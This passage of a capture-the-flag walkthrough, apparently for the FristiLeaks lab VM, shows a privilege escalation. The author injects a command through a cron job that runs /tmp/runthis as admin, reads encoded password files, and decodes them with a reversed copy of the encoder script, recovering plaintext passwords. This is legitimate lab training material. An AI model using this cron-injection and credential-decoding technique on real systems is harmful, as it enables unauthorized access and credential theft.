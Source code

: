 ```plaintext
```

## Privilege Escalation

According to this message, there was a script running that will execute any command as admin in the /tmp directory if it’s in a file called runthis. So let’s execute a command that we can access /admin/ folder by using the /tmp/runthis file trick. Inside it I could see a bunch of interesting files, some encrypted files and a python script used to encrypt the files.

```plaintext
sh-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
sh-4.1$ ls -l /home/admin
ls -l /home/admin
total 632
-rwxr-xr-x 1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x 1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r-- 1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r-- 1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r-- 1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x 1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x 1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x 1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r-- 1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
sh-4.1$ cat cryptedpass.txt
cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
sh-4.1$ cat whoisyourgodnow.txt
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
sh-4.1$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

I copied the cryptpass python script in my local machine and I modified it a bit, so instead of encrypting the files it decrypts them! :smiling_imp:

```plaintext
root@kali:~# cat cryptpass.py 
import base64,codecs,sys

def encodeString(str):
    decoded = codecs.decode(str[::-1], 'rot13')
    return base64.b64decode(decoded)

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
root@kali:~# python cryptpass.py mVGZ3O3omkJLmy2pcuTq
thisisalsopw123
root@kali:~# python cryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG
LetThereBeFristi!
```
